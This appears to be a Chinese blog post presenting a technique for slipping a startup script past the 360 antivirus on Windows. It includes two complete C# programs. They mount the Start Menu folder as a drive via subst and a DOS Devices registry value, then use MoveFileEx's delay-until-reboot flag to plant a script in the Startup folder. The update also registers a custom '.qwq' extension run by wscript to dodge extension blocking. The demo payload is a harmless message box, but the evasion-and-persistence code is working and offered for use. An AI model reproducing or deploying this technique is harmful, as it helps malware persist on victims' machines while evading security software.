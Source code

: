 ```yaml
---
title: 一个不太好用的过360启动方案
date: 2023-2-27 17:49:45
categories: 
- Persistence
tags:
- Bypass
- 360
- Persistence
---
```

突发奇想的一个思路，不太好用就发出来玩玩吧

# 背景知识

## 目录挂载

subst是Windows自带的一个工具，可以将文件目录挂载为磁盘，但是重启后不会继续挂载了。

如果想长期挂载，需要修改注册表 ``HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\DOS Devices``。

[https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/subst](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/subst)

## MoveFileEx

MoveFileEx函数第三个参数，可以设置为MOVEFILE_DELAY_UNTIL_REBOOT，实现重启后移动文件。

此参数仅适用于同一盘符内文件的移动。

[https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-movefileexa](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-movefileexa)

# 绕过思路

shell:startup目录是用户的启动文件夹，其中的文件会在系统启动时执行，杀软也肯定对写入该目录存在监控

但是杀软无法拦截MoveFileEx导致的重启后移动，所以挂载启动文件夹为新盘符目录后通过MoveFileEx即可移动文件至启动文件夹中

# Demo代码

```
using System;
using System.IO;
using Microsoft.Win32;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace Demo
{
    internal class Program
    {
        [Flags]
        enum MoveFileFlags
        {
            MOVEFILE_REPLACE_EXISTING = 0x00000001,
            MOVEFILE_COPY_ALLOWED = 0x00000002,
            MOVEFILE_DELAY_UNTIL_REBOOT = 0x00000004,
            MOVEFILE_WRITE_THROUGH = 0x00000008,
            MOVEFILE_CREATE_HARDLINK = 0x00000010,
            MOVEFILE_FAIL_IF_NOT_TRACKABLE = 0x00000020
        }

        [return: MarshalAs(UnmanagedType.Bool)]
        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Unicode)]
        static extern bool MoveFileEx(string lpExistingFileName, string lpNewFileName, MoveFileFlags dwFlags);
        static void Main(string[] args)
        {
            File.WriteAllText("C:\\Windows\\Temp\\1.vbs", "msgbox(\"test\")");
            string newdisk = "X:";
            string filepath = "C:\\Windows\\Temp\\1.vbs";
            string filename = "1.vbs";

            string appdata = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData);
            string programs = appdata + "\\Microsoft\\Windows\\Start Menu\\Programs";
            RegistryKey registryKey = Registry.LocalMachine.OpenSubKey("SYSTEM\\CurrentControlSet\\Control\\Session Manager\\DOS Devices", true);
            registryKey.SetValue(newdisk, "\\??\\"+ programs);
            Process.Start("subst", newdisk+" \""+ programs + "\"");
            File.Copy(filepath, programs+"\\"+ filename);
            MoveFileEx(newdisk+ "\\" + filename, newdisk + "\\Startup\\" + filename, MoveFileFlags.MOVEFILE_DELAY_UNTIL_REBOOT);
        }
    }
}

```

# 2023/4/16更新

有朋友测试发现vbs后缀被拦了，懒得搞其他冷门后缀了，直接自己搞个后缀吧

```csharp
using System;
using System.IO;
using Microsoft.Win32;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace Demo
{
    internal class Program
    {
        [Flags]
        enum MoveFileFlags
        {
            MOVEFILE_REPLACE_EXISTING = 0x00000001,
            MOVEFILE_COPY_ALLOWED = 0x00000002,
            MOVEFILE_DELAY_UNTIL_REBOOT = 0x00000004,
            MOVEFILE_WRITE_THROUGH = 0x00000008,
            MOVEFILE_CREATE_HARDLINK = 0x00000010,
            MOVEFILE_FAIL_IF_NOT_TRACKABLE = 0x00000020
        }
      
        public static void RegisterFileType()
        {
            RegistryKey softwareKey = Registry.ClassesRoot.OpenSubKey(".qwq");
            if (softwareKey != null)
            {
                return;
            }

            RegistryKey fileTypeKey = Registry.ClassesRoot.CreateSubKey(".qwq");
            string relationName = "QWQDANCHUN";
            fileTypeKey.SetValue("", relationName);
            fileTypeKey.Close();

            RegistryKey relationKey = Registry.ClassesRoot.CreateSubKey(relationName);
            relationKey.SetValue("", "Bypass Startup Script");

            RegistryKey shellKey = relationKey.CreateSubKey("Shell");

            RegistryKey openKey = shellKey.CreateSubKey("Open");

            RegistryKey commandKey = openKey.CreateSubKey("Command");
            commandKey.SetValue("", "wscript.exe //E:vbscript" + " %1");
            relationKey.Close();
        }

        [return: MarshalAs(UnmanagedType.Bool)]
        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Unicode)]
        static extern bool MoveFileEx(string lpExistingFileName, string lpNewFileName, MoveFileFlags dwFlags);
        static void Main(string[] args)
        {
            File.WriteAllText("C:\\Windows\\Temp\\test.qwq", "msgbox(\"test\")");
            string newdisk = "X:";
            string filepath = "C:\\Windows\\Temp\\test.qwq";
            string filename = "test.qwq";

            string appdata = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData);
            string programs = appdata + "\\Microsoft\\Windows\\Start Menu\\Programs";
            RegistryKey registryKey = Registry.LocalMachine.OpenSubKey("SYSTEM\\CurrentControlSet\\Control\\Session Manager\\DOS Devices", true);
            registryKey.SetValue(newdisk, "\\??\\" + programs);
            Process.Start("subst", newdisk + " \"" + programs + "\"");
            File.Copy(filepath, programs + "\\" + filename);
            MoveFileEx(newdisk + "\\" + filename, newdisk + "\\Startup\\" + filename, MoveFileFlags.MOVEFILE_DELAY_UNTIL_REBOOT);
            RegisterFileType();
        }
    }
}

```
